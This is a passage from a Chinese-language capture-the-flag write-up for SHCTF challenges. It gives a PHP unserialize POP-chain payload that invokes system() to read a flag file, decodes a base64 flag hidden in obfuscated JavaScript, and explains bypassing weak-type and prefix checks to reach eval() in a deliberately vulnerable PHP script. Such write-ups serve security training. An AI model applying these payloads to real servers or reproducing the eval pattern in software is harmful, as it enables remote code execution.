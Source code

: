 Payload 如下：
```PHP
$c = new C();
$t = new T();
$f = new F();
$shctf = new SHCTF();

$t -> n = $f;
$f -> o = $c;
$c -> p = $shctf;
$shctf -> isyou = 'system';
$shctf -> flag = 'cd ..;cd ..;cd ..;cat flllag';

print_r(base64_encode(serialize($t)));
```

### 单身十八年的手速
- 改改 JS 代码就可以了。    
- 或者都不用修改，直接看到它满足条件之后返回的值。
```JavaScript
const addTimes = () => {
    times += 0x209;
    document[_0x3bac('0x2', '7)ZK')]('clickCount')['textContent'] = times;
    if (times >= 0x208) {
    	alert('U0hDVEZ7Y2M0NDdiNWEtNTg0Yy00MjhmLThjNTYtZWY1ZTAzN2Y5YTg3fQo=');
    }
}
```
- 发现是一串编码，猜测是 `base64`。    
- 解码即得出 flag：`SHCTF{cc447b5a-584c-428f-8c56-ef5e037f9a87}`。

### 蛐蛐?蛐蛐!
- 题目
```PHP
<?php
if($_GET['ququ'] == 114514 && strrev($_GET['ququ']) != 415411){
    if($_POST['ququ']!=null){
        $eval_param = $_POST['ququ'];
        if(strncmp($eval_param,'ququk1',6)===0){
            eval($_POST['ququ']);
        }else{
            echo("可以让fault的蛐蛐变成现实么\n");
        }
    }
    echo("蛐蛐成功第一步！\n");
}
else{
    echo("呜呜呜fault还是要出题");
}
?>
```
- 第一个绕过只需加入在 `114514` 后加入 php 弱类型判断忽略的字符即可如 `@`。    
- 第二个绕过只需参数前 6 个字符是 `ququk1`，之后使用空格将其隔断就可正常执行之后传递的命令。
